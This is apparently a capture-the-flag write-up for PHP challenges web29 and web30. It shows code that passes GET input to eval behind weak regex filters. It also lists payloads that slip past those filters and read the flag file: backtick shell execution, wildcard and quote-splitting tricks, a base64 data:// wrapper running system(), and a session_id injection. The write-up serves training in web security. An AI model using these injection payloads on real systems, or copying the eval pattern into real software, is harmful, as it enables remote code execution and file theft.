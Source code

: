```
c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

c=session_start();system(session_id());
passid=ls
```

## web29

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

```
?c=system('tac fla*.php');
?c=echo `nl fl''ag.php`;
?c=echo `cat fl*g.ph*`;
```

## web30

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

```
?c=echo `cat fl*g.ph*`;
?c=echo `nl fl''ag.p''hp`;
?c=echo `cat fl''ag.p''hp`;
?c=echo `cat fl*ag.p*hp`;
?c=echo `cp fl*ag.p*hp 1.txt | cat 1.txt`;
```
